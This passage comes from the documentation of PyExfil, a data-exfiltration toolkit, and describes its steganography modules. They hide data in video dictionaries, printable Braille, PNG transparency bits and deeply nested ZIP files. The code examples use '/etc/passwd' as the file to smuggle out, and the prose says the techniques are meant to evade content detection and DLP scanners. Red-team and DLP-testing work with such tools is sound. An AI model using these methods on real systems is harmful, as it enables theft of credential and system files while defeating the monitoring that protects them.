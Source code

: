 To make stuff easier, we've added a functionality to download a video from YouTube with a specific quality and frame to make sure one could use it without actually transferring the video file from one end to the other.

```python
from pyexfil.Stega.video_dict.vid_to_dict import TranscriptData, DecodeDictionary

TranscriptData(video_file="video.mp4", input_file="/etc/passwd", output_index="output.map")
DecodeDictionary(originalVideo="video.mp4", dictionaryFile='output.map', outputFile="original_passwd")
```

#### Braille Text Document
This module can be very useful when you have only a printer at hand. It will try to avoid detection based on content by compressing the data, converting it to hex and then representing that in Braille to it is relatively easy to scan, use OCR and then convert back to the actual data.

```python
#!/usr/bin/env python3

from pyexfil.Stega import braille
braille.Send(file_path='/etc/passwd', to_file=True, to_screen=False)
```

This will generate one `output.txt` file with the Braille text and one `output.pdf` file with the text aligned and ready to be printed.

To decode simply use:
```python
#!/usr/bin/env python3

from pyexfil.Stega import braille
data = open("output.txt", 'r').read()
braille.Decode(data)
```

#### PNG Transparency
This little nifty module will take a PNG image file and embed the data you want to exfiltrate as the transparency bit (4th). It does mean that the image file needs to be big enough for large sets of data but for rapid-short-burst communication it can be very useful.

```python
#!/usr/bin/env python3

from pyexfil.Stega.png_transparency import Encode, Decode

encodingWrapper = Encode(key="ABC123456", data="Secret Secret Data")
encodingWrapper.Run()

decodingWrapper = Decode(key="ABC123456", file_path='output.png')
print(decodingWrapper.Run())
```

#### ZIP Loop
This module is not specifically for steganography but was put here as it is the best fit. The idea is that many DLP scanners will not pass beyond the 1k iterations of decompressing ZIP files to avoid overhead. This uses a big random number of iterations resulting in a significantly larger output that should go unnoticed by some DLP mechanisms.
